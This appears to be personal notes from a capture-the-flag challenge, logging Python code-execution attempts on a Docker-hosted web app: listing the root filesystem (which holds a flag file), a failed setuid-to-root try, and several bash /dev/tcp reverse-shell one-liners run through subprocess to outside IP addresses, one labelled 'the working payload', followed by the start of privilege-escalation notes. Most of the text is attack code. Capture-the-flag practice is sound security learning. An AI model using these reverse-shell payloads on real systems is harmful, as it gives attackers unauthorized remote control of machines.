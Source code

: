 ## remedy check
```
import os

#print all entries in current directory
print (os.listdir())
- does give us all dirs
```
## ..
```
import os

#print all entries in current directory
print (os.listdir('../'))
 ['bin', 'boot', 'dev', 'etc', 'home', 'lib', 'lib64', 'media', 'mnt', 'opt', 'proc', 'root', 'run', 'sbin', 'srv', 'sys', 'tmp', 'usr', 'var', '.dockerenv', 'flag', 'app', 'entrypoint.sh', 'uwsgi-nginx-entrypoint.sh', 'start.sh', 'install-nginx-debian.sh']
```
```
import subprocess
import os
os.setuid(0)
os.setgid(0)
result = subprocess.run(["id"], shell=True, capture_output=True, text=True)

print(result.stdout)
err: [Errno 1] Operation not permitted
```

```
import subprocess
import os
import socket,os,pty

result = subprocess.run(["bash -i &> /dev/tcp/3.6.30.85/16197 <&1"], shell=True, capture_output=True, text=True)

print(result.stdout)
```
got reverse shell
```
result = subprocess.run(["exec bash -i &> /dev/tcp/3.6.30.85/16197 <&1"], shell=True, capture_output=True, text=True)

result = subprocess.run(["bash -c 'exec bash -i &> /dev/tcp/3.6.30.85/16197 <&1'"], shell=True, capture_output=True, text=True)


result = subprocess.run(["bash -i &> /dev/tcp/3.6.30.85/16197 <&1"], shell=True, capture_output=True, text=True)

```
## the working payload
result = subprocess.run(["bash -c 'exec bash -i &> /dev/tcp/3.6.115.182/12044 <&1'"], shell=True, capture_output=True, text=True)
# escalating privilages
- ![image](https://github.com/m0wn1ka/ctf/assets/127676379/6fb246cd-cdd2-4b3e-a31d-0c6855ccbfd3)
- now all users have /nologin except nginx
- 
